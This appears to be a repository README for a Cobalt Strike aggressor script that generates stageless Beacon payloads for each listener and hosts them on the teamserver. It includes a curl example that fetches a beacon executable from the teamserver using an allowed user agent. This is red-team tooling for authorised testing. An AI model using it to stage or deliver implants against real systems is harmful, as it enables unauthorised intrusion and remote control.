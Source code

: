 # Cobalt Strike Payload Generator

This aggressor script builds all stageless payload types for each current listener and optionally hosts the payloads on the HTTP server

Payloads Naming Syntax:

Filename:

`beacon_<type>_<listener name>_<arch>.<ext>`

URL:

`http://< teamserver IP >/payloads/beacon_<type>_<listener name>_<arch>.<ext>`

You can quickly curl the payloads

Example:

```
curl -A SOME_ALLOWED_USERAGENT http://192.168.1.100/payloads/beacon_http_http_x64.exe
```






